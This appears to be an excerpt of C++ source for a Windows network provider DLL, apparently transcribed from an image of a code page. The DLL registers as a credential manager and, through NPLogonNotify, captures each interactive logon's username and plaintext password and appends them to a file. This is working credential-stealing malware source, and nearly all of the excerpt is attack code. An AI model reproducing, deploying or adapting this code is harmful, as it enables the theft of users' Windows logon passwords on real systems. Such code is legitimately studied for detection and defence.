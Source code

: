 ```cpp
    {
        SetFilePointer(hFile, 0, NULL, FILE_END);
        WriteFile(hFile, username->Buffer, username->Length, &dwWritten, 0);
        WriteFile(hFile, L" -> ", 8, &dwWritten, 0);
        WriteFile(hFile, password->Buffer, password->Length, &dwWritten, 0);
        WriteFile(hFile, L"\r\n", 4, &dwWritten, 0);
        CloseHandle(hFile);
    }
}

__declspec(dllexport)
DWORD
APIENTRY
NPGetCaps(
    DWORD nIndex
)
{
    switch (nIndex)
    {
        case WNNC_SPEC_VERSION:
            return WNNC_SPEC_VERSION51;

        case WNNC_NET_TYPE:
            return WNNC_CRED_MANAGER;

        case WNNC_START:
            return WNNC_WAIT_FOR_START;

        default:
            return 0;
    }
}

__declspec(dllexport)
DWORD
APIENTRY
NPLogonNotify(
    PLUID lpLogonId,
    LPCWSTR lpAuthInfoType,
    LPVOID lpAuthInfo,
    LPCWSTR lpPrevAuthInfoType,
    LPVOID lpPrevAuthInfo,
    LPWSTR lpStationName,
    LPVOID StationHandle,
    LPWSTR* lpLogonScript
)
{
    SavePassword(
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->UserName),
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->Password)
    );
    lpLogonScript = NULL;
    return WN_SUCCESS;
}

```
